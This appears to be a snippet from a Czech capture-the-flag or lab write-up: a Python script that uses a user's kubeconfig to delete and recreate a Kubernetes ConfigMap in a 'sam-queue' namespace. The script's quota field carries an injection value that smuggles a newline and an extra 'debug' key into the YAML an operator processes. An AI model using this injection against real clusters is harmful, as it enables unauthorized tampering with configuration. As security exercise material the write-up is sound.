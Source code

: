 ```
from kubernetes import client, config

txid = '76690ebb6d6ee9ceedc06a2b5ffae29c'
pquota = 'BrokenQuota"\n  debug: "hahaha'
pname = 'SmeRiadniHackerzz?'

def create_configmap_object():
    global pquota
    global pname
    global txid
    metadata = client.V1ObjectMeta(
        namespace="sam-queue",
        name=f"request-{txid}",
        annotations={
            "sam-operator/project_name": pname,
            "sam-operator/project_quota": pquota
        }
    )
    configmap = client.V1ConfigMap(
        api_version="v1",
        kind="ConfigMap",
        data={
            "project_name": pname,
            "project_quota": pquota,
            "txid": f"{txid}"
        },
        metadata=metadata
    )
    return configmap

# Load the kubeconfig and create API client
config.load_kube_config(config_file='kubecreds-jacob.config')
v1 = client.CoreV1Api()

# Attempt to delete the ConfigMap if it exists
v1.delete_namespaced_config_map(
    name=f"request-{txid}",
    namespace="sam-queue",
    body=client.V1DeleteOptions()
)

# Create the ConfigMap
cm_obj = create_configmap_object()
api = v1.create_namespaced_config_map(body=cm_obj, namespace="sam-queue")

print("ConfigMap created successfully, check the web app status.")

```

spustíme, refreshneme stránku a voalá
